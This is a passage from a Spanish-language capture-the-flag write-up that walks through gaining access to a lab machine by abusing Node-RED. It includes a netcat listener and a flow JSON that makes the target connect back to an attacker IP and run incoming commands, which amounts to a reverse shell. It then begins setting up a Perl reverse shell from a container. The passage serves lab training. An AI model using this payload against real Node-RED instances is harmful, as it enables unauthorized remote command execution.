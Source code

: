 ```bash
        "d03f1ac0.886c28"
      ]
    ]
  }
]
```

## Vuln exploit & Gaining Access {-}

### Ganando acceso con Node-RED {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Copiamos el json y lo copiamos en la web

    ```bash
    echo '[{"id":"7235b2e6.4cdb9c","type":"tab","label":"Flow 1"},{"id":"d03f1ac0.886c28","type":"tcp out","z":"7235b2e6.4cdb9c","host":"","port":"","beserver":"reply","base64":false,"end":false,"name":"","x":786,"y":350,"wires":[]},{"id":"c14a4b00.271d28","type":"tcp in","z":"7235b2e6.4cdb9c","name":"","server":"client","host":"10.10.14.29","port":"443","datamode":"stream","datatype":"buffer","newline":"","topic":"","base64":false,"x":281,"y":337,"wires":[["4750d7cd.3c6e88"]]},{"id":"4750d7cd.3c6e88","type":"exec","z":"7235b2e6.4cdb9c","command":"","addpay":true,"append":"","useSpawn":"false","timer":"","oldrc":false,"name":"","x":517,"y":362.5,"wires":[["d03f1ac0.886c28"],["d03f1ac0.886c28"],["d03f1ac0.886c28"]]}]' | xclip -sel clip
    ```

    Y lo pegamos en Menu > import > Clipboard. Dandole a **import**, vemos un nuevo diagrama

1. Lanzamos el exploit dandole al boton **Deploy**

Ya ganamos acceso al systema pero viendo que somos root, esto significa que estamos en un contenedor.

Aqui intentamos hacer un tratamiento de la TTY pero vemos que no le gusta.

```bash
which python
which python2.7
which python3
which perl
```

como vemos que la maquina tiene **perl**, vamos a entablarnos una nueva reverse shell con perl.

1. nos ponemos nuevamente en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. desde la shell que tenemos en el contenedor lanzamos un shell reversa con perl
